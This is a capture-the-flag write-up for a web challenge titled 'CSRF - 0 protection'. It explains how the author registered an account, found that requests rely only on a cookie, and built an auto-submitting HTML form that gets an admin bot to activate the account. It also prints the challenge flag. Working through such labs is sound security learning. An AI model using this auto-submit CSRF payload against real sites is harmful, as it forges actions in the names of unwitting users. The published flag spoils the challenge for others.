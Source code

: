 # CSRF - 0 protection

**Point**: 35 Points 

## Solution:

This is a basic CSRF vulnerability. Get in the page, we see a form: 

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159601753-f08b4ef7-75f1-43b3-8b28-3b0c8e0a5aea.png" ></p>

Before "Login", we have to register. Move to "Register" and create an account. For example, in my case, username is `khangtictoc` and password is `123`

Log in this account. Move to "Private" 

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159602721-0d988354-cb0f-43bd-ba64-49e8a20feea5.png" ></p>


This section is for activated account. So we could reach that via sending a malicious HTML content to "Contact". 

But how do we achieve this action ? In "Profile", there's a **disable** checkbox and a button "Submit". 

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159603119-dc64359d-bb4e-4fb7-bfbd-0114c02b2d94.png" ></p>

Enable the checkbox, in "Dev Tool" (F12) replace `disabled=""` with `checked`. Then click "Submit" button.

```html
<input type="checkbox" name="status" checked>
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159604050-ebe23dce-fbd6-4f24-9377-006d78f291fb.png" ></p>

Only **admin** can do this action. Move to "Network" section, examine **Request Headers**:

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159605145-6f1167f6-4b58-4b74-bac5-cba9448f3a1f.png" ></p>

This meet requirements for CSRF:
- Only **cookie** use to identify user
- **Origin** and **Referer**. We use form with POST request to send data, we can bypass this

We could make **administrator** do the activation for us. Constructing a auto-submit form. Copy the given form:

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159605827-cfb26c6c-f62d-4864-a8d2-a7010b0ee6ee.png" ></p>

Changing `checkbox` as we've done previous. Create payload: 
- Make sure value in **input/type=text** is our **username** 
- Set an `id=form` for easy **querySelector**, there's 1 form so we can confidently name any id  
- Set `action` to "http://challenge01.root-me.org/web-client/ch22/?action=profile" for fixed path, we can "POST" data no matters the place(URL) we are
- Add **javascript code** for auto-submit.
- Put the payload in full **HTML format**. The payload 's contained in `<html></html` and in `<body></body>`

Your email: khangtictoc@gmail.com (arbitrary string)
Comment:

```html
<html>
  <body>
      <form action="http://challenge01.root-me.org/web-client/ch22/?action=profile" method="post" id="form" enctype="multipart/form-data">
		    <div class="form-group">
		    <label>Username:</label>
		    <input type="text" name="username" value="khangtictoc">
		    </div>
		    <br>		
		    <div class="form-group">
		    <label>Status:</label>
		    <input type="checkbox" name="status" checked>
		    </div>
		    <br>	
        <button type="submit">Submit</button>
	    </form>
    <script>document.getElementById("form").submit(); </script>
    <body>
</html>
```

Wait for a while for autbot's working. Direct to "Private" section:

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159609361-00cc5132-5e08-4e9b-a98d-3f58e733f6ea.png" ></p>

Flag: **Csrf_Fr33style-L3v3l1!**
